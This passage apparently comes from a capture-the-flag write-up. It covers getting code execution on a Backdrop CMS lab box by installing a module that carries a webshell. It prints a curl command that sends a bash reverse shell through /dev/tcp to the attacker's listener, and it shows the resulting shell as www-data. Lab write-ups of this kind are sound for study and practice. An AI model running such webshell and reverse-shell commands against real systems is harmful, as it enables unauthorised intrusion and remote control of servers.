 On clicking Install, it says it's successful:

![](/img/image-20221129142009737.png)

#### RCE

I can find the shell at `/modules/[name of module]/shell.php`. In my
case, the name will be `reference`. It works:

![](/img/image-20221129142315439.png)

### Shell

I'll get a shell by passing a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to the webshell:



    oxdf@hacky$ curl -kG  https://localhost:4433/modules/reference/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'



At `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.167 33644
    bash: cannot set terminal process group (281): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@90c7f522b842:/var/www.md/backdrop/modules/reference$
